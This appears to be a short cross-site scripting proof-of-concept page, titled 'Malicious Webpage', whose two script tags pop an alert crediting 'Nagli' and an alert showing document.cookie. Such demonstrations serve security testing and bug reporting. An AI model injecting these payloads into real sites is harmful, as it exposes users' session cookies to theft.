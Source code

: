 <h1> Malicious Webpage </h1>
<script>alert("XSS by Nagli")</script>
<script>alert(document.cookie)</script>
